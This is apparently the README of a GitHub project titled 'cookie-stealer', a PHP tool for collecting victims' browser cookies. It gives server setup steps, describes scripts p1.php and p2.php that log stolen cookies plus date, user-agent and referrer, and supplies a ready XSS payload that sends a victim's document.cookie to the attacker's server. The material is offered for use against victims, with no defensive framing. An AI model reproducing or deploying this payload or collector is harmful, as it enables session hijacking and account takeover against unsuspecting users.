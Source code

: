 # cookie-stealer
Cookie Stealer in PHP

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in cookie file.
example of link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal cookies of your victim:
```
<script>window.location="http://192.168.1.135/php-cookie-stealer/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is basic version of cookie stealer that recieve and store just value of txt parameter.

### p2.php
p2.php store more data from victim. you can store ``` date user-agent referrer ``` too.

